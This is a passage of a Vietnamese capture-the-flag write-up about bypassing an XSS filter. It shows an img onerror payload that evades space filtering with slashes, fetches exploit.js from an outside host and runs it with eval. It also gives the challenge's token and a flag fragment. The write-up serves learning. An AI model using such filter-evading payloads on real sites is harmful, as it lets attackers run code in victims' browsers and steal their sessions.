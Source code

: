 Vì thế mình chỉ cần xóa các dấu cách thừa không cần thiết và các attribute có thể dễ dàng bypass bằng dấu /

```html 
<img/src="x"/oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(r=&gt;r.text()).then(data=&gt;eval(data))"/
```

![image](./images/image56.png)


Submit purell-token{wh3n_th3_imp0st4_i5_5u5_bu7_th3r35_n0_sp4c3} và mình có part 6 của flag : un1v3rs3

Tiếp đến level 6 web cấm luôn cả ( ,[, ] và )
